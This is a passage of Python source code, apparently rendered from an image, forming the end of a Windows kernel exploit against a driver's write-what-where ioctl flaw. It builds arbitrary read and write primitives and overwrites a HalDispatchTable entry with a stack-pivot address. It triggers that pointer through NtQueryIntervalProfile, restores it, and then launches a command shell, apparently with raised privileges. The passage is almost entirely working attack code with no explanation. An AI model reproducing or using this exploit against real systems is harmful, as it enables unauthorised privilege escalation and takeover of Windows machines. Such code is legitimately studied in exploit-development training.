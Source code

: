 ```python
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong()
    www.What = c_ulonglong(where)
    www.Where = addressof(tmp)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)

    return tmp.value


# Exploit the vulnerability to write into arbitrary addresses
def write(what: int, where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong(what)
    www.What = addressof(tmp)
    www.Where = c_ulonglong(where)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)


def main():
    initialize_globals()
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1

    hal_dispatch_table_addr = get_kernel_symbol_addr(b'HalDispatchTable')

    if hal_dispatch_table_addr in [0, -1]:
        print('Error while getting address to HalDispatchTable')
        return 1
    
    backup_function_pointer = read(hal_dispatch_table_addr + 0x8)
    fake_stack_ptr = get_fake_stack_addr()
    write(g_stack_pivot, hal_dispatch_table_addr + 0x8)
    windll.ntdll.NtQueryIntervalProfile(0x1234, fake_stack_ptr)
    write(backup_function_pointer, hal_dispatch_table_addr + 0x8)

    subprocess.Popen('start cmd', shell=True)
    return 0

if __name__ == '__main__':
    ret = main()
    sys.exit(ret)
```